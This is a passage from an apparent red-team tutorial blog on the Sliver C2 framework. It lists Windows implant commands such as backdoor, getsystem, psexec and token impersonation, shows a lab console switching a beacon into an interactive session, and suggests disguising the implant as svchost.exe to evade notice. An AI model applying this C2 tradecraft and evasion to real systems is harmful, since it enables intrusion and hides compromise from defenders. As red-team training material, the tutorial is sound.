 A lot of the commands in a beacon might be familiar if you've ever used Meterpreter, so I won't explain every single possible thing you can do. However, differing from Meterpreter, there are a lot more commands to help simplify some of the things you might need to do as a red teamer.

```shell
Sliver - Windows:
=================
  backdoor          Infect a remote file with a sliver shellcode
  dllhijack         Plant a DLL for a hijack scenario
  execute-assembly  Loads and executes a .NET assembly in a child process (Windows Only)
  getprivs          Get current privileges (Windows only)
  getsystem         Spawns a new sliver session as the NT AUTHORITY\SYSTEM user (Windows Only)
  impersonate       Impersonate a logged in user.
  make-token        Create a new Logon Session with the specified credentials
  migrate           Migrate into a remote process
  psexec            Start a sliver service on a remote target
  registry          Windows registry operations
  rev2self          Revert to self: lose stolen Windows token
  runas             Run a new process in the context of the designated user (Windows Only)
  spawndll          Load and execute a Reflective DLL in a remote process
```

### Sessions
To be able to use some of the commands that require a session, we can use `interactive` to enter session mode.

```shell
sliver (DIFFICULT_DYNAMO) > interactive

[*] Using beacons active C2 endpoint: https://10.10.69.24
[*] Tasked beacon DIFFICULT_DYNAMO (80902df5)

[*] Session 4791259a DIFFICULT_DYNAMO - 10.10.69.19:50057 (DESKTOP-1AGTDPB) - windows/amd64 - Sun, 25 Sep 2022 00:59:52 EDT

sliver (DIFFICULT_DYNAMO) > use 4791259a-d94a-4aba-b2cb-c99c86543d2b

[*] Active session DIFFICULT_DYNAMO (4791259a-d94a-4aba-b2cb-c99c86543d2b)

sliver (DIFFICULT_DYNAMO) >  
```

You can't really see it here, but in the UI, the name of the implant is blue when it's in beacon mode, and red when it's in session mode. Not only do we now get quicker turnarounds on our tasks, because everything is happening immediately, but we can also use commands like `getsystem`, `portfwd`, or `shell` that require a constant connection. The big downside is that is the beacon process continuously shows up in Task Manager. Ideally, you rename the executable file to `svchost.exe` or `explorer.exe` or something less suspicious, but the problem still remains.

![Pasted image 20220925003324.png](https://an00brektn.github.io/img/sliver/Pasted%20image%2020220925003324.png)

Other than that, they're really not that much different than beacons. From a workflow perspective, you'll almost always default to beacons, then pull out the session if necessary. After all you can only go from beacon to session, not vice versa.

